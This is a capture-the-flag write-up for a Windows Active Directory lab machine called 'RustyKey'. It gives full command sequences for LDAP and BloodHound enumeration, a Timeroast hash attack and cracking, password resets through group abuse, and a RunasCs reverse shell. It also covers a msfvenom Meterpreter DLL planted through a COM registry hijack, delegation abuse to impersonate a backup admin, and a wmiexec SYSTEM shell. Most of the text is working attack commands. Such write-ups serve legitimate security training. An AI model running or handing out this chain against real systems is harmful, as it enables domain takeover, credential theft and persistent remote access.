

# RustyKey

Difficulty: Hard
OS: Windows
Category: Offensive


As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: **rr.parker / 8#t5HE8L!W3A**

### Scanning

```bash
Nmap scan report for 10.129.191.241
Host is up (0.25s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-01 09:37:14Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-01T09:37:30
|_  start_date: N/A
|_clock-skew: 7h59m59s

```

Test for `Simple Bind` authentication by using `ldapsearch` tool. But for CTF purpose, this machine allows it.

```bash
ldapsearch -x -H ldap://10.129.191.241 -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b 'dc=rustykey,dc=htb' "(objectClass=user)" userPrincipalName
```

```bash
# extended LDIF
#
# LDAPv3
# base <dc=rustykey,dc=htb> with scope subtree
# filter: (objectClass=user)
# requesting: userPrincipalName 
#

# Administrator, Users, rustykey.htb
dn: CN=Administrator,CN=Users,DC=rustykey,DC=htb

# Guest, Users, rustykey.htb
dn: CN=Guest,CN=Users,DC=rustykey,DC=htb

# DC, Domain Controllers, rustykey.htb
dn: CN=DC,OU=Domain Controllers,DC=rustykey,DC=htb

# krbtgt, Users, rustykey.htb
dn: CN=krbtgt,CN=Users,DC=rustykey,DC=htb

# Support-Computer1, Computers, Support, rustykey.htb
dn: CN=Support-Computer1,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer2, Computers, Support, rustykey.htb
dn: CN=Support-Computer2,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer3, Computers, Support, rustykey.htb
dn: CN=Support-Computer3,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer4, Computers, Support, rustykey.htb
dn: CN=Support-Computer4,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Support-Computer5, Computers, Support, rustykey.htb
dn: CN=Support-Computer5,OU=Computers,OU=Support,DC=rustykey,DC=htb

# Finance-Computer1, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer1,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer2, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer2,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer3, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer3,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer4, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer4,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# Finance-Computer5, Computers, Finance, rustykey.htb
dn: CN=Finance-Computer5,OU=Computers,OU=Finance,DC=rustykey,DC=htb

# IT-Computer1, Computers, IT, rustykey.htb
dn: CN=IT-Computer1,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer2, Computers, IT, rustykey.htb
dn: CN=IT-Computer2,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer3, Computers, IT, rustykey.htb
dn: CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer4, Computers, IT, rustykey.htb
dn: CN=IT-Computer4,OU=Computers,OU=IT,DC=rustykey,DC=htb

# IT-Computer5, Computers, IT, rustykey.htb
dn: CN=IT-Computer5,OU=Computers,OU=IT,DC=rustykey,DC=htb

# rr.parker, Users, rustykey.htb
dn: CN=rr.parker,CN=Users,DC=rustykey,DC=htb
userPrincipalName: rr.parker@rustykey.htb

# mm.turner, Users, rustykey.htb
dn: CN=mm.turner,CN=Users,DC=rustykey,DC=htb
userPrincipalName: mm.turner@rustykey.htb

# bb.morgan, Users, IT, rustykey.htb
dn: CN=bb.morgan,OU=Users,OU=IT,DC=rustykey,DC=htb
userPrincipalName: bb.morgan@rustykey.htb

# gg.anderson, Users, IT, rustykey.htb
dn: CN=gg.anderson,OU=Users,OU=IT,DC=rustykey,DC=htb
userPrincipalName: gg.anderson@rustykey.htb

# dd.ali, Users, Finance, rustykey.htb
dn: CN=dd.ali,OU=Users,OU=Finance,DC=rustykey,DC=htb
userPrincipalName: dd.ali@rustykey.htb

# ee.reed, Users, Support, rustykey.htb
dn: CN=ee.reed,OU=Users,OU=Support,DC=rustykey,DC=htb
userPrincipalName: ee.reed@rustykey.htb

# nn.marcos, Users, rustykey.htb
dn: CN=nn.marcos,CN=Users,DC=rustykey,DC=htb
userPrincipalName: nn.marcos@rustykey.htb

# backupadmin, Users, rustykey.htb
dn: CN=backupadmin,CN=Users,DC=rustykey,DC=htb
userPrincipalName: backupadmin@rustykey.htb

# search reference
ref: ldap://ForestDnsZones.rustykey.htb/DC=ForestDnsZones,DC=rustykey,DC=htb

# search reference
ref: ldap://DomainDnsZones.rustykey.htb/DC=DomainDnsZones,DC=rustykey,DC=htb

# search reference
ref: ldap://rustykey.htb/CN=Configuration,DC=rustykey,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 31
# numEntries: 27
# numReferences: 3
```

The output above is a proof that it allows `Simple Bind` authentication.

Setup your `/etc/krb5.conf` first, before you proceed.

```bash
[libdefaults]
        default_realm = RUSTYKEY.HTB
        dns_lookup_realm = false
        dns_lookup_kdc = false
        ticket_lifetime = 24h
        forwardable = yes
[realms]
				RUSTYKEY.HTB = {
                kdc = 10.129.191.241
        }
[domain_realm]
				.rustykey.htb = RUSTYKEY.HTB
        rustykey.htb = RUSTYKEY.HTB
```

### Enumeration

Refer to this post on how **Kerberos** authentication works. It is a good practice that we follow the **TGT → TGS → AUTH** flow.

[Kerberos (I): How does Kerberos work? - Theory](https://www.tarlogic.com/blog/how-kerberos-works/)

Get the `TGT` of the user `rr.parker`. The TGT of this user can be used for `TGS` as the encryptions for the TGT are decrypted because we have a password.

```bash
getTGT.py -dc-ip 10.129.191.241 rustykey.htb/rr.parker:'8#t5HE8L!W3A'
```

Set the Kerberos ticket as the active session

```bash
export KRB5CCNAME=rr.parker.ccache
```

Check the active Kerberos ticket



Now that everything is setup, we can now run `bloodhound-python` . 

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -c all -d rustykey.htb -ns 10.129.191.241 --zip -k -dns-timeout 30
```


This is the shortest path from the user `rr.parker` . The arrows are the guide in order to gain a foothold and on to the user. You can click on those nodes and observe more information on what would out attack vector be.

- The account `IT-COMPUTER3$` can add itself to `HELPDESK`
- `HELPDESK` group can change the password for the following users:
    - bb.morgan
    - gg.anderson
    - dd.ali
    - ee.reed
- `MM.TURNER` has `AddAllowedToAct` rights on `DC.RUSTKEY.HTB`
- The following users can connect via `evil-winrm`:
    - bb.morgan
    - gg.anderson
    - ee.reed

### Foothold to User

We’ll do a **Timeroast** attack on the machine. In real world application, we’ll know that the machine is vulnerable to **Timeroast** attack by confirming that NTP authentication on DCs uses computer account hashes. Clone the following repository or use `NetExec` for **Timeroast**.

[https://github.com/SecuraBV/Timeroast](https://github.com/SecuraBV/Timeroast)

```bash
python3 timeroast.py 10.129.191.241 -o rustkey.hashes
```

Before cracking the hash, the `timecrack.py` has an issue when cracking. Expand the toggle list below.

- **Fix for Timecrack script**
    
    This may be late but I'll leave this to anyone who is still solving.
    
    If you are using
    
    **timeroast.py**
    
    and used
    
    **timecrack.py**
    
    to crack the hash.  You will get an error
    
    ```
    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 962: invalid continuation byte
    ```
    
    when decoding. 
    
    To fix this, simply modify the
    
    **timecrack.py**
    
    script, since this is just a few lines of python code. 
    (1). Fine the line
    
    ```
    argparser.add_argument('dictionary', type=FileType('r'), help='Line-delimited password dictionary')
    ```
    
    (2) Modify the code into
    
    ```
    argparser.add_argument('dictionary', type=lambda f: open(f, encoding='latin-1'), help='Line-delimited password dictionary')
    ```
    
    OPTIONAL
    You can choose to ignore the error for invalid characters only
    
    ```
    argparser.add_argument('dictionary', type=lambda f: open(f, encoding='utf-8', errors='ignore'), help='Line-delimited password dictionary')
    ```
    
    What works for me best was the first one.
    
    WHY THE ERROR? the
    
    **timecrack.py**
    
    passes the following argument
    
    ```
    python3 timecrack.py <hash file> <wordlist>
    ```
    
    , the wordlist used here is
    
    ```
    rockyou.txt
    ```
    
    . The wordlist contains
    
    **non-UTF-8 bytes**
    
    which triggers the error.
    

Then crack the hashes with the script.

```bash
python3 timecrack.py rustykey.hashes rockyou.txt

# Output: Cracked RID 1125 password: Rusty88!
```

Look into your `bloodhound-python` and search for the user who has the RID ending with **1125**.


Request a `TGT` ticket for the user `IT-COMPUTER3$`

```bash
getTGT.py -dc-ip 10.129.191.241 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
```

Set the machine account’s Kerberos ticket as default

```bash
export KRB5CCNAME=IT-COMPUTER3$.ccache
```

We add the machine account to the group `HELPDESK`

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb add groupMember 'HELPDESK' IT-COMPUTER3$
```

Remove IT from Protected Objects (Refer to bloodhound, IT is part of Protected Objects)

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'Protected Objects' 'IT'

```

Change the password for the user `bb.morgan`

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'Password123!'
```

Now, request a `TGT` ticket for the user `bb.morgan`

```bash
getTGT.py -dc-ip 10.129.191.241 'rustykey.htb/bb.morgan:Password123!'
```

Authenticate on the domain using the realm and not the password

```bash
evil-winrm -i dc.rustykey.htb -u bb.morgan -r rustykey.htb
```

Then get the `user.txt` flag at `Desktop`

### Root

In the `Desktop` file, there’s a `.pdf` file along with the `user.txt` download it and view.


We’ll move on to the user `ee.reed` so we will user `IT-COMPUTER3$` to get its creds.

```bash
export KRB5CCNAME=IT-COMPUTER3$.ccache
```

(This part is optional but sometimes, the machine will revert back so to be sure do this. If there’s an error read it, make sure that it says that it says it’s alrady done.)

Add the `IT-COMPUTER3$` to `HELPDESK`

```bash
bloodyAD --host dc.rustykey.htb -k --dc-ip 10.129.191.241 -d rustykey.htb add groupMember 'HELPDESK' IT-COMPUTER3$
```

We will then remove the group `SUPPORT` in order to manipulate the user `ee.reed` and change its password. Both `IT` and `SUPPORT` are part of this group, `Protected Objects` is a security group to prevent the users under these groups to prevent unauthorized access.

```bash
bloodyAD --kerberos --dc-ip 10.129.191.241 --host dc.rustykey.htb -d rustykey.htb -u IT-COMPUTER3$ -p 'Rusty88!' remove groupMember "CN=PROTECTED OBJECTS,CN=USERS,DC=RUSTYKEY,DC=HTB" "SUPPORT"
```

Set a new password for `ee.reed`

```bash
bloodyAD --kerberos --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'Password123!'
```

Authenticate with `evil-winrm`

```bash
evil-winrm -i dc.rustykey.htb -u ee.reed -r rustykey.htb
```

If you try to authenticate, you will notice that `ee.reed` does not allow authenticating on `evil-winrm` so we will find a workaround with this.

Download `RunasCs.cs` by cloning this repository

[https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

### Pivoting

Use `bb.morgan` to pivot, we request a `TGT` ticket for this user.

```bash
export KRB5CCNAME=bb.morgan.ccache
```

Authenticate to `evil-winrm` as `bb.morgan`

```bash
evil-winrm -i dc.rustykey.htb -u bb.morgan -r rustykey.htb
```

Create a directory for your tools. Then upload `RunasCs.cs` to the target.

```bash
mkdir C:\Tools
cd C:\Tools

upload RunasCs.cs
```

We’ll make this `.cs` file into a `.exe` with the command below.

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs
```

Setup a listener either `msfconsole` or `netcat`

```bash
msfconsole -q
use multi/handler
set LHOST <vpn ip>
run

# DO NOT CONFIGURE THE PAYLOAD, LEAVE IT AS IT IS
```

Then execute the `RunasCs.exe`

```bash
.\RunasCs.exe ee.reed Password123! cmd.exe -r 10.10.x.x:4444
```

Now that you have the full permission as `ee.reed` we’ll move on to the user `bb.turner`. We setup a DLL-based Meterpreter backdoor via a COM hijacking vulnerability.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4455 -f dll -o rev.dll
```

We can check the `CLSID` and notice that there’s a 7-zip installed on the machine. We will do a DLL hijacking within this registry key for 7-zip.

```bash
msfconsole -q
use multi/handler
set LHOST <vpn ip>
set LPORT 4455
set payload windows/x64/meterpreter/reverse_tcp
run
```

On your Tools directory, upload the `rev.dll` and execute the DLL hijacking

```bash
upload rev.dll

reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Tools\rev.dll" /f
```

You will now be logged in as `MM.TURNER`, this user has `AllowedToAct` on `DC.RUSTKEY.HTB`

After a few seconds the shell will be executed. **NOTE**: Do the following steps faster as the shell connection will break.

Switch to `PowerShell` and set up delegation for `IT-COMPUTER3$`

```bash
Powershell

Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

Now that we have delegation from `MM.TURNER` with `IT-COMPUTER3$` we will now impersonate `backupadmin`

```bash
impacket-getST -spn 'cifs/DC.rustkey.htb' -impersonate backupadmin -dc-ip 10.129.191.241 -k 'RUSTYKEY.HTB\IT-COMPUTER3$:Rusty88!'
```

Export the received ticket as a Kerberos cache

```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

Authenticate with `wmiexec.py` to get a shell as `NT/AUTHORITY SYSTEM`

```bash
wmiexec.py -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
```

Then retrieve `root.txt` at `Desktop`